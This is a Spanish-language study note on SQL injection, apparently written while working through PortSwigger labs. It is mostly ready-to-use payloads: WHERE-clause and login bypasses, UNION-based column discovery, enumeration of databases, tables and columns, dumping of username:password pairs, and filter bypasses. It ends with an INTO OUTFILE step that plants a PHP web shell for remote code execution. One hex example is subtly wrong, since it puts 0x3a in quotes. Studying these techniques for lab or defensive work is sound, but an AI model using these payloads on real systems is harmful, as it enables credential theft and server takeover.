 
Variable a cambiar --> $WORD

# Vulnerabilty in where cluase allowing retrieval of hidden data

````sql
$WORD' or 1=1-- -
-- o se puede poner así también:
$WORD' or 1=1#
````
Ej:
![[Pasted image 20230122161824.png]]

#### Explicación
- Con la primera comilla simple(**'**) estamos haciendo que se cierre el campo de la categoría.
- **or 1=1** --> Esto se pone porque se está indicando que es **verdadero**
- Con el comentario (**-- -**) estamos indicando que el resto de la query que se aplica **no se interprete**

Filtrame por la categoría accesorios o 1=1 (que es true)
![[Pasted image 20230122162356.png]]

# Vulnerability allowing login bypass
````sql
administrator'-- -
o
administrator'#
````


#### Explicación
- Con la comilla simple estamos cerrando el campo

- Si no esta bien sanitizado y en el panel de administrador hace una query parecida a la de la imagen para comprobar que el usuario y la contraseña sean verdadero podemos comentar el resto de la query con **-- -** o **#** 
![[Pasted image 20230122164703.png]]

Así que estamos diciendo que cuando el usuario sea válido podremos entrar

Si pide la contraseña puede que sea por la validación de la parte de front-end, se pone cualquier cosa y listo
![[Pasted image 20230122165427.png]]

# Union Attack, determing the number of columns returned by the query 

El primer paso es **averiguar el número de columnas**

Error based
````sql
$WORD' order by 100-- -
````

![[Pasted image 20230122171131.png]]


#### Explicación general
**Error based** o cuando se ve un error.
Esto se trata de causar un error que se mostrará en la página y así nosostros identificamos que es vulnerable a sqli

100 --> Es el número de columnas por el que le estamos pidiendo que ordene, en caso de no existir 100 columnas saltaría un error, de está forma vamos a ir probando **hasta que no salte error**, cuando esto sea así significa que ese es el **máximo de columnas**


**La diferencia de usar order by y del unio**n es que el union **solo se mostrara cuando es el número exacto de columnas**, mientras que el **order by** se mostrará cuando sea el número **igual que la columna o más pequeño**
También se puede con union:
````sql
$WORD' union select 1-- -
````


En este caso cuando no de error, es que esa es la cantidad de columnas existentes

Una vez conocido el total de columnas utilizamos el union:
````sql
$WORD' union select 1,2,3-- -
````
Los **números representan las columnas existentes**.
Si no funciona con números probar con **null**
![[Pasted image 20230122171929.png]]
Si esto funciona podemos empezar a introducir comandos sql en los números:
````sql
$WORD' union select version(),user()-- -
````
Puede que en algunas webs se interprete php y podamos poner comandos ("\<?php system('whoami'); ?>")

==Atención!==
**No todos los campos son válidos/inyectables** para introducir los comandos, tenemos que fuzzear  todos los campos para ver cuál es el válido

## Listar BD

**Ver las bases de datos disponibles**
````sql
$WORD' union select 1,schema_name from information_schema.schemata-- -
````
**En algunas ocasiones no deja mostrar varias filas**, para ello podemos utiliza la función concat()
````sql
$WORD' union select 1,concat(schema_name) from information_schema.schemata-- -
````

==Importante==
La función group_concat() y concat() no hacen lo mismo
- ``group_concat()`` --> combina valores en **columnas**
- ``concat()`` --> combina valores en **filas**

También podemos ir viendo los resultados uno a uno con limit:
````sql
$WORD' union select 1,schema_name from information_schema.schemata limit 0,1-- -

-- 1,1   2,1    3,1 ...
````


````sql
$WORD' union select schema_name,null from information_schema.schemata-- -
````

## Listar tablas

Una vez conozcamos las bases de datos tenemos que **averiguar las columnas/filas de estas**

Lo malo de esto es que **te representa todas las tablas de todas las bases de datos**
````sql
$WORD' union select table_name,null from information_schema.tables-- -
````

Para que no pase esto podemos utilizar where:
````sql
$WORD' union select table_name,null from information_schema.tables where table_schema='public'-- -
````

## Listar Columnas
Ahora que conocemos las tablas queremos **dumpear las columnas**
````sql
$WORD' union select column_name,null from information_schema.columns where table_schema='NombreBaseDeDatos' and table_name='NombreTablaAListar' -- -
````

## Ver campos y datos
Si lo permite podemos utilizar los dos campos para que un lado aparezca el nombre y en otro aparezca la contraseña:
````sql
$WORD' union select username, password from users-- -
````

Si no te lo permite y solo puedes con un campo puedes utilizar la función concat:
````sql
$WORD' union select null, concat(username,':',password) from users-- -
````

En caso de que sea otra base de datos la que contiene estos campos tendríamos que indicarlo
````sql
$WORD' union select null, concat(username,':',password) from OtraTabla.users-- -
````

### Otra forma de concatenar la información (Bypassing con pipes || )
Si no permite la anterior podemos probar así:
````sql
$WORD' union select null, username||':'||password from users-- -
````

### Bypassing cadenas de caracteres con hexadecimal
Si no deja poner una cadena de separatoria (como son los : puedes poner su valor en **hexadecimal**):
````sql
$WORD' union select null, concat(username,'0x3a',password) from users-- -
````

Si no deja representar alguna cadena de texto en otro sitio sería igual, lo podemos representar en hexadecimal, para ello podemos utilizar lo siguiente:
````sql
echo "admin" | tr -d '\n' | xxd -ps
````
Con el tr -d '\n' le estamos quitando el salto de línea para que se represente

En caso de que no dejará podriamos ir a la [cheat sheet de portswigger](https://portswigger.net/web-security/sql-injection/cheat-sheet)

### SQLI --> RCE

**Si tenemos permiso de escritura** incluso podemos colar archivos:
````sql
$WORD' union select <?php system('whoami'); ?>,"test" into outfile "/var/www/html/COMANDO.php"-- -
````
La ruta no tiene porque ser está, esto tendríamos que investigar cual sería

Vídeo de s4vi --> 1:13:20

# Fuentes
Laboratorio Portwsigger
[S4vitar](https://www.youtube.com/watch?v=C-FiImhUviM&list=PLWys0ZbXYUy4WG1HQEtg90-bspFWjExPy)
[Cheat sheet de portswigger](https://portswigger.net/web-security/sql-injection/cheat-sheet)

